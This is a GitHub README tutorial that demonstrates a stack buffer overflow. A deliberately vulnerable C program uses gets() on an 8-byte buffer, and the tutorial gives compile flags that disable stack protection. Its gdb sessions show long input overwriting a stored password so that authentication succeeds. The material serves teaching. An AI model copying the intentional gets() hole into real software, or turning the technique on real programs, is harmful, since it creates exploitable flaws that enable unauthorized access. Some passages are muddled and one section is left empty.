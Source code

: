 # StackOverflow

This repo was created to demonstrate the operation of a buffer overflow exploit, we are going to change a password variable within a vulnerable program which might illustrate for example how can an attacker grant access to an assumed program which requires authentication by overwriting the current/real password in the stack memory of a C program affecting **CONFIDENTIALITY AND INTEGRITY**. 

We will also impair the availability of the program generating a segmentation fault error which occurs when when a program attempts to access a memory location that it is not allowed to access, a violation in memory in most standards computers will trigger the OS kernel to perform a corrective action leading the program to be terminated, affecting the **AVAILABILITY** 

## A bit of memory 

Understanding stack-based overflow attacks involves at least a basic understanding of computer memory, let's review some very important concepts. 

### Stack memory: 

A stack is the memory which stores variables created by a function, it's temporary, when the program is finished, the memory of the variable will be automatically erased and the area freed up, the stack is managed by the CPU – so you don’t have to allocate or deallocate memory. The stack section mostly contains methods, local variable, and reference variables. 

![stack memory graph ](https://github.com/tavaresrodrigo/StackOverflow/blob/main/stack.png)
### Heap memory

The heap is the memory used by programming languages to store large block of memory, it's also known as dynamic memory. Unlike the stack this area of memory is managed by the programmer in C for example, variables are allocated and freed using functions like malloc() and free().

![stack memory vs heap memory comparison ](https://github.com/tavaresrodrigo/StackOverflow/blob/main/stackvsheap.png)


## The stack overflow exploit

When the execution stack grows beyond the memory that is reserved for it, you will cause a stack overflow as the stack will eventually consume more memory than is reserved for it and eventually overwrite other buffers in the same stack. 

### The exploit

The [code](https://github.com/tavaresrodrigo/StackOverflow/blob/main/code.c) used to illustrate the exploit has a number of security red flags.

``` C
#include <signal.h>
#include <stdio.h>
#include <string.h>
int main(){
	char realPassword[8];
	char givenPassword[8];

	strncpy(realPassword, "ffffffff", 8);
	gets(givenPassword);
	
	if (0 == strncmp(givenPassword, realPassword, 8)){
		printf("SUCCESS!\n");
	}else{
		printf("FAILURE!\n");
	}
	raise(SIGINT);
	printf("givenPassword: %s\n", givenPassword);
    printf("realPassword: %s\n", realPassword);
	return 0;
}
``` 

### gets()

The function **gets()** is used to read an arbitrary amount of data into a stack buffer without limiting the amount of data read, it just reads the data and dumps it into memory, basically this function does not matches the size of the data read with the size of the buffer, in our case **8**, which means we can pass any value to the buffer and it will be written into the stack memory.

### Compiling the code

For years attackers have been exploiting vulnerabilities in the stack memory, so it's expected that the compilers have developed mechanisms to protect the program execution against these attacks, for this this reason we will disable them in order to be able to reproduce the segmentation fault, in order to compile the program you should use the parameters below:

``` bash
# gcc -fno-stack-protector -z execstack -o code code.c
```

Do you remember the gets() ? Look at the compiler alert **"the `gets' function is dangerous and should not be used."**:

```bash
code.c: In function ‘main’:
code.c:9:2: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
    9 |  gets(givenPassword);
      |  ^~~~
      |  fgets
/usr/bin/ld: /tmp/ccipvQhp.o: in function `main':
code.c:(.text+0x2a): warning: the `gets' function is dangerous and should not be used.
```
### Running the code

As you might have noticed, the [programmer](https://blog.rapid7.com/2019/02/19/stack-based-buffer-overflow-attacks-what-you-need-to-know/)[1] had configured a **SIGINT** in the code that allows us to use the debugger[2] to dive deep in the stack frames and confirm what is happening at the memory level, let's run the program and pass "aaaaaaaaaaaaaaaa" 16xa which will dump 4 frames in the stack as we can see below: 

```bash
(gdb) run
Starting program: /home/vagrant/StackOverflow/code
aaaaaaaaaaaaaaaa
FAILURE!

Program received signal SIGINT, Interrupt.
__GI_raise (sig=<optimized out>) at ../sysdeps/unix/sysv/linux/raise.c:50
50	../sysdeps/unix/sysv/linux/raise.c: No such file or directory.

```

Now let's check the area of memory where our 16x was stored, first we need to check where exactly the stack memory is :

```bash
(gdb) info frame
Stack level 0, frame at 0x7fffffffe480:
 rip = 0x7ffff7e1618b in __GI_raise (../sysdeps/unix/sysv/linux/raise.c:50); saved rip = 0x555555555237
 called by frame at 0x7fffffffe4d0
 source language c.
 Arglist at 0x7fffffffe358, args: sig=<optimized out>
 Locals at 0x7fffffffe358, Previous frame's sp is 0x7fffffffe480
  Saved registers:
  rip at 0x7fffffffe478
```

We already know from where to start the search so let's show at least 100 frames on the screen:

```bash
(gdb) x/100x 0x7fffffffe358
[...]
0x7fffffffe468:	0x6b453000	0x0ddcad0a	0x00000000	0x00000000
0x7fffffffe478:	0x55555237	0x00005555	0x61616161	0x61616161
0x7fffffffe488:	0x61616161	0x61616161	0xf7fc0f00	0x00007fff
0x7fffffffe498:	0x55555270	0x00005555	0x66666666	0x66666666
0x7fffffffe4a8:	0x555550e0	0x00005555	0xffffe5b0	0x00007fff
[...]

### Overwriting the program variable in the stack

In [ASCII](https://www.rapidtables.com/code/text/ascii-table.html) [3] "a" is 61 as "f" is 66, so as we could see the 4 frames filled up with our input, and most importantly, we noticed there are only 4 frames (16K) between the area of memory which is storing the realPassword "0x66666666", what happens if we store 52xa (12+1 frames) running our program one more time ?

```bash
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/vagrant/StackOverflow/code
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
SUCCESS!
```
Voila, **SUCCESS** the realPassword was overwritten and the new password in memory now is equivalent to "realPassword, "ffffffff", 8"., if we check the memory again we will confirm that the following frames were dumped with "0x61616161":

```bash
(gdb) x/100x 0x7fffffffe358
[...]
0x7fffffffe468:	0x553fd900	0x4d79bf14	0x00000000	0x00000000
0x7fffffffe478:	0x55555237	0x00005555	0x6d6d6f63	0x20646e61
0x7fffffffe488:	0x61616161	0x61616161	0x61616161	0x61616161
0x7fffffffe498:	0x61616161	0x61616161	0x61616161	0x61616161
0x7fffffffe4a8:	0x61616161	0x61616161	0x61616161	0x61616161
0x7fffffffe4b8:	0x00000000	0x00000000	0x00000000	0x00000000
[...]



### To reproduce this exploit you will


## References


[1] https://blog.rapid7.com/2019/02/19/stack-based-buffer-overflow-attacks-what-you-need-to-know/
[2] https://www.gnu.org/software/gdb/
[3] https://www.rapidtables.com/code/text/ascii-table.html
[3] https://owasp.org/www-community/vulnerabilities/Buffer_Overflow
[4] https://www.youtube.com/watch?v=1S0aBV-Waeo